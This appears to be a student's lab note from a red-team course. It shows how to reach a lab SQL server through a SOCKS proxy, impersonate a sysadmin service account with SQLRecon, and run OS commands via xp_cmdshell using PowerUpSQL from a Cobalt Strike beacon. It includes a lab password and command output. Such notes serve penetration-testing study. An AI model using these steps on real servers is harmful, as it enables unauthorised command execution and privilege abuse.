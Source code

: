 The _xp_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges.  `Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it.

`WSL` setup:
setup `sockx5 proxy on 1080` on `WKSTN-2` as `dev\bfarmer`
in `Attacker Desktop` `WSL` session utilize `proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25` to connect to `sql` server, password `Sup3rman`

`beacon` setup:
`powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1` in beacon to `execute` commands below


[[2. MS SQL Impersonation]] to impersonate `DEV\mssql_svc`
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
[+] host called home, sent: 307594 bytes
[+] received output:
[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433 as 'DEV\mssql_svc'
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] [+] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.

[12/13 23:23:29] [+] received output:
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```

The _xp_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges.  `Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it.
what is supposed to happen:
```powershell
beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\mssql_svc
```
what actually happened:
```powershell
[12/13 23:24:18] beacon> powerpick Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
[12/13 23:24:18] [+] host called home, sent: 10 bytes
[12/13 23:24:18] [*] Tasked beacon to run: Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults (unmanaged)
[12/13 23:24:18] [+] host called home, sent: 138048 bytes
[12/13 23:24:25] [+] received output:

ComputerName            Instance                     CommandResults         
------------            --------                     --------------         
```